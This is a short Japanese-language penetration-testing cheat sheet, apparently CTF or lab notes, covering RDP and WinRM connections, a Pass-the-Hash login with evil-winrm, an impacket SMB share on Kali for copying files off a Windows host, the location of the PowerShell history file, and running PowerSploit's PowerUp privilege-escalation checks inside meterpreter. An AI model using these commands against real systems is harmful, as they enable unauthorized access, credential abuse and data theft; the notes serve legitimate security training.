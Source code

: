 # Tips

## リモート接続

### RDP

```shell
xfreerdp /u:<user> /p:<password> /v:<ip> /w:1280 /h:800 /cert:ignore　+clipboard

xfreerdp /u:<user> /p:<password> /v:<ip> /size:90% /cert:ignore +clipboard

xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:90% +clipboard

# remmina (GUI)
sudo apt install remmina
```

### WinRM

```shell
evil-winrm -i <ip> -u <user> -p <password>

# Pass-the-Hash
evil-winrm -i <ip> -u <user> -H <hashvalue>

evil-winrm -i <domain>\\<ip> -u <user> -H <hashvalue>
```

### SSH

```shell
ssh <domain>\\<user>@<ip>
```

## ファイル共有

Linux の共有フォルダに、Windows からアクセスする

```shell
python3 -m pipx install impacket
```

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

## Powershell

### Powershell の履歴

```powershell
%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Powershell プロセスのログ

```text
Application and Services Logs -> Microsoft -> Windows -> PowerShell -> OperationalApplication and Service Logs -> Windows PowerShell
```

### meterpreter から Powershell の起動

（例）
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```shell
meterpreter > load powershell
meterpreter > posershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
